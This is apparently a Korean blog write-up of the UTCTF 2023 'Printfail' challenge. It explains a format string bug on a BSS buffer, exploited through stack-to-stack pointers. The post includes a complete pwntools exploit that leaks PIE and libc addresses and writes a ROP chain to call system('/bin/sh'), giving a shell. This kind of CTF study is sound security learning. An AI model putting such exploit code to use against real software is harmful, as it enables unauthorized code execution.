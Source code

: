 ```yaml
---
layout: post
title: "[UTCTF 2023] Printfail write-up"
date: 2023-03-28 15:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux, FSB]
media_subpath: /assets/img/2023-03-29-printfail
---
```


## [0x00] 요약

---

BSS 입력 버퍼를 대상으로 FSB가 발생할 때, stack-to-stack pointer를 활용하여 익스플로잇하는 문제

## [0x01] 접근 방법

---

![buf](1.png)

512바이트 전역 배열 buf가 존재합니다.

![run_round](2.png)

그리고, main 함수에서 위와 같은 함수를 실행해주는데, 단순하게 Format String Bug가 전역 변수를 대상으로 발생하는 상황입니다.

본래 로직대로라면, 1자리 이상의 값을 입력할 경우, `a1`의 값이 0으로 덮어써지게 되고 이 함수는 한 번의 실행밖에 못 하는 것이 정상입니다. 이 상황을 해결하려면 어떻게 해야 할까요?

## [0x02] 분석

---

본래 로직대로라면, 1자리 이상의 값을 입력할 경우, `run_round` 함수의 첫 번째 인자인 `a1`의 값이 0으로 덮어써지게 되고 이 함수는 한 번의 실행밖에 못 하는 것이 정상입니다.

그러나, `run_round` 함수의 인자로 `a1`의 주소가 들어있다는 점을 이용한다면, 해당 주소에 값을 덮어쓸 수 있고 이로 인해 반복적인 FSB 실행이 가능하게 됩니다.

![printf](3.png)

위는 printf 함수가 호출되기 직전의 스택 상황을 살펴본 것입니다. 7번째 인자 부분에 a1 포인터 변수가 위치한 것을 확인할 수 있습니다.

이제 이 값을 반복적으로 덮어줌(`%7$n`)으로써, FSB를 여러 번 호출하고 익스플로잇에 성공해봅시다. (이때, 입력이 수행되는 buf가 BSS 영역에 위치하고 있음에 주의합니다.)

이를 해결할 수 있는 방법으로는 스택에서 스택을 가리키고 있는 값을 이용하였습니다.

![stack](4.png)

위는 `run_round + 132` 부분으로, `printf` 함수를 호출하기 직전의 스택 상황입니다. 이때, 15번째 인자의 값이 스택(빨간색 네모)을 가리키고 있고, 그 주소(주황색 네모) 또한 스택을 가리키고 있습니다. 이를 이용하면, 15번째 인자를 2바이트(`%15$hn`)만큼 원하는 스택 주소로 덮어쓰고, 43번째 인자에서 원하는 값을 작성할 수 있고, 이로 인해 스택에 원하는 값을 작성할 수 있게 됩니다.

## [0x03] 익스플로잇

---

```python
from pwn import *

def overwrite_2(addr, val):
    payload = f'%{addr % 0x10000}c%15$hn%7$n'.encode()
    p.sendlineafter(b'\n', payload)
    p.recvuntil(b"I'll give you another chance.\n")

    if val == 0:
        payload = f'%43$hn%c%7$n'.encode()
    else:
        payload = f'%{val}c%43$hn%7$n'.encode()
    p.sendlineafter(b'\n', payload)
    p.recvuntil(b"I'll give you another chance.\n")

def overwrite_4(addr, val):
    overwrite_2(addr, val & 0xFFFF)
    overwrite_2(addr + 2, val >> 16)

def overwrite_8(addr, val):
    overwrite_4(addr, val & 0xFFFFFFFF)
    overwrite_4(addr + 4, val >> 32)

context.terminal = ["tmux", "splitw", "-h"]
p = process('./pwn_printfail', aslr=1)
libc = ELF('/usr/lib/x86_64-linux-gnu/libc-2.31.so', False)

payload = b'%6$p:%7$p:%7$n'
p.sendlineafter(b"\n", payload)

PIE_base = int(p.recvuntil(b":", drop=True), 16) - 0x1120
Stack = int(p.recvuntil(b":", drop=True), 16) - 0x24
RET = Stack + 0x38

log.success(f"PIE base : {hex(PIE_base)}")
log.success(f"main RET : {hex(RET)}")

overwrite_8(RET, PIE_base + 0x3FA0)
payload = b'%13$s:%7$n'
p.sendlineafter(b"\n", payload)
p.recvuntil(b"I'll give you another chance.\n")
libc.address = u64(p.recv(6) + b'\x00\x00') - libc.symbols['puts']
log.success(f"libc base : {hex(libc.address)}")

pop_rdi = PIE_base + 0x1373
pop_r14_r15 = PIE_base + 0x1370
binsh = list(libc.search(b"/bin/sh"))[0]

log.info(f"pop_rdi : {hex(pop_rdi)}")
log.info(f"binsh : {hex(binsh)}")
log.info(f"system : {hex(libc.symbols['system'])}")
overwrite_8(RET, pop_r14_r15)
overwrite_8(RET + 0x18, pop_rdi)
overwrite_8(RET + 0x20, binsh)
overwrite_8(RET + 0x28, libc.symbols['system'])
p.sendlineafter(b"chance.\n", b'1')

p.interactive()
```

처음에는 rtld_global로 libc leak을 수행했는데, 원격 환경에서는 익스플로잇이 안 되길래 puts GOT를 출력하여 libc leak을 다시 수행하였습니다. 그리고, 스택의 RET 부분에 ROP 페이로드를 작성하여 익스플로잇을 수행하였습니다.

![flag](5.png)

 `utflag{one_printf_to_rule_them_all}`

## [0x04] 참고 자료

---

- 출제자 write-up: [https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-printfail](https://github.com/utisss/UTCTF-23/tree/main/puffer/pwn-printfail)
    - 풀이는 저와 똑같습니다. 다만 ROP 클래스를 활용해서 익스플로잇을 쉽게 짜는 건 부럽긴 하네요. 참고해야겠습니다.
- MIsutgaRU님 write-up: [https://mi-sutga-ru.tistory.com/23](https://mi-sutga-ru.tistory.com/23)
    - `_dl_fini` 함수 내부 루틴을 활용한 익스플로잇입니다.
    - `_dl_fini`->`add_r14_gadget`->`main`->`one_gadget` 순서로 호출하여, 쉘을 따낸 방식인데, 본래 `_fini_array`를 가리키고 있던 값을 buf로 옮긴 것도 중요하지만, `add_r14_gadget`을 활용하여 연속적으로 원하는 가젯을 호출하였다는 것이 더 중요합니다. 나중에 다른 문제를 풀 때도 참고할 수 있을만한 방법으로 보입니다.